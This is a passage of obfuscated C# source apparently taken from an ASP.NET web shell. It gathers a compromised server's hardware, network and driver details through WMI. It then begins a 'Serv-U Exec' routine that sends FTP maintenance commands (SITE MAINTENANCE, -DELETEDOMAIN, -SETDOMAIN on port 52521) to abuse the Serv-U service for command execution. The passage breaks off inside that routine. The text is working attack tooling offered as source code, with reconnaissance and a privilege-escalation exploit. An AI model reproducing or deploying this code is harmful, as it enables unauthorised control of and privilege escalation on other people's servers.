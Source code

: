 DataTable BIOS=cCf("Win32_BIOS");
yEwc.Append("<li><u>Server BIOS : </u>"+BIOS.Rows[0]["Manufacturer"]+" : "+BIOS.Rows[0]["Name"]+"</li>");
yEwc.Append("<li><u>CPU Count : </u>"+cpu.ToString()+"</li>");
yEwc.Append("<li><u>CPU Version : </u>"+NPPZ+"</li>");
DataTable upM=cCf("Win32_PhysicalMemory");
Int64 oZnZV=0;
for(int i=0;i<upM.Rows.Count;i++)
{
oZnZV+=Int64.Parse(upM.Rows[0]["Capacity"].ToString());
}
yEwc.Append("<li><u>Server upM : </u>"+mTG(oZnZV)+"</li>");
DataTable dOza=cCf("Win32_NetworkAdapterConfiguration");
for(int i=0;i<dOza.Rows.Count;i++)
{
hwJeS.Append("<li><u>Server MAC"+i+" : </u>"+dOza.Rows[i]["Caption"]+"</li>");
if(dOza.Rows[i]["MACAddress"]!=string.Empty)
{
hwJeS.Append("<li style=\"list-style:none;\"><u>Address : </u>"+dOza.Rows[i]["MACAddress"]+"</li>");
}
}
DataTable Driver=cCf("Win32_SystemDriver");
for (int i=0; i<Driver.Rows.Count; i++)
{
jXkaE.Append("<li><u class='u1'>Server Driver"+i+" : </u><u class='u2'>"+Driver.Rows[i]["Caption"]+"</u> ");
if (Driver.Rows[i]["PathName"]!=string.Empty)
{
jXkaE.Append("Path : "+Driver.Rows[i]["PathName"]);
}
else
{
jXkaE.Append("No path information");
}
jXkaE.Append("</li>");
}
Bin_Ul_Sys.InnerHtml=yEwc.ToString();
Bin_Ul_NetConfig.InnerHtml=hwJeS.ToString();
Bin_Ul_Driver.InnerHtml=jXkaE.ToString();
}
catch(Exception error)
{
xseuB(error.Message);
}
}
public void ADCpk()
{
WICxe();
APl.Visible=true;
Bin_H2_Title.InnerText="Serv-U Exec >>";
}
public void lDODR()
{
string JGGg=string.Empty;
string user=dNohJ.Value;
string pass=NMd.Value;
int port=Int32.Parse(HlQl.Value);
string cmd=mHbjB.Value;
string CRtK="user "+user+"\r\n";
string jnNG="pass "+pass+"\r\n";
string site="SITE MAINTENANCE\r\n";
string mtoJb="-DELETEDOMAIN\r\n-IP=0.0.0.0\r\n PortNo=52521\r\n";
string sutI="-SETDOMAIN\r\n-Domain=BIN|0.0.0.0|52521|-1|1|0\r\n-TZOEnable=0\r\n TZOKey=\r\n";